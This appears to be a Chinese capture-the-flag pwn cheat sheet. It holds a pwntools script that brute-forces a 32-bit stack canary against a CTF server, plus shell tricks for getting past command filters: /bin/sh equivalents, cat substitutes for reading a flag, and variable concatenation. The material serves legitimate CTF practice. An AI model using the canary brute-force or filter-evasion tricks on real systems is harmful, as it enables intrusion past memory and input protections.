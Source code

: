 ```python
#32位
canary = ''

for i in range(4):
   for c in range(0xFF):
      #io = process('./pwn')

      io = remote('pwn.challenge.ctf.show',28173)
      io.sendlineafter('>','-1')
      payload = 'a'*0x20 + canary + p8(c)
      io.sendafter('$ ',payload)
      io.recv(1)
      ans = io.recv()
      print ans

      if 'Canary Value Incorrect!' not in ans:
         print 'The index({}),value({})'.format(i,c)
         canary += p8(c)
         break

      else:
          print 'tring... ...'

      io.close()

print 'canary=',canary
```

### 沙箱绕过：

#### bin/sh等价

```shell
$0
sh
bin/sh

```

#### cat等价

```shell
tail / head / tac / nl / grep / more / less flag
cat flag
ls 
```

#### 拼接绕过

```shell
a=c;b=at;c=f;d=lag.txt;
$a$b ${c}${d}
```
